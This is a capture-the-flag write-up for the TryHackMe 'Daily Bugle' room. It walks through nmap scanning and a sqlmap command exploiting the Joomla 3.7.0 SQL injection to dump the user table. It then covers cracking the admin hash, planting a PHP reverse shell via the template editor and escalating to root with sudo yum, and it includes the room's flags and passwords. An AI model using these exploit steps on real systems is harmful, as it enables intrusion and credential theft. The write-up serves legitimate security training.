[TryHackMe | Daily Bugle](https://tryhackme.com/room/dailybugle)


Deploy the machine - it may take up to 2 minutes to configure (Hard 🥴)

---

### Setup

```
Desktop/TryHackMe/daily_bugle » nmap -A -vv 10.10.85.30 -oN nmap_result
```

```
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX

80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home

3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```

### Access the web server, who robbed the bank?

```
Spiderman
```



---


Hack into the machine and obtain the root user's credentials.

### What is the Joomla version?

```
# As you can see on the nmap report the blog is using joomla, let's use some tools to enumerate the version and see if there is something interesting..
# https://github.com/Tuhinshubhra/CMSeeK
[✔] CMS URL: https://joomla.org
[✔] Joomla Version: 3.7.0
```



Nice, now we have the version let's see if there is an exploit in this version on exploitdb for example.



Yep ! There is a SQLi available ! 🙌



The exploit tells us to basically use sqlmap, well.. let's do that I guess.

```
# sqlmap command
sqlmap -u "http://10.10.85.30/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__users' --dump
```

If you want, you can use this exploit written with python 

[NinjaJc01/joomblah-3](https://github.com/NinjaJc01/joomblah-3)



```

[$] Found user : 'Super User', 'jonah', 'jonah@tryhackme.com', 
Hashed password : '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
```

Nice this is exactly what we wanted, let's crack the password.

### What is Jonah's cracked password?

```
# Let's crack the hash with hashcat / john
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```



After ~40-45 minutes the password has been cracked : `spiderman123`

Now that we have the administrator's password let's upload some reverse shell 👀



Now that we successfully connected let's upload something.



Go to the `Extensions/Templates/Templates` tab.

And create a php page



##### Bonus, you can use my own extension to generate php shell and many more things !

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)





Now let's juste save and close the page to see the magic happen 😎



And voilà ! You have successfully uploaded a reverse shell !

Now we can access the configuration of joomla `/var/www/html/configuration.php`



```
Password : 'nv5uz9r3ZEDzVjNu';
```

### What is the user flag?



To see what is the name of the user I cd into the `/home` directory to list all of the available users, and the rest is pretty straightforward, just SSH into the account with the password that you have cracked earlier.

```
# First flag 
27a260fe3cba712cfdedb1c86d80442e
```

### What is the root flag?



Payload → gtfobins

[yum | GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)

```
# Root flag
# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
```

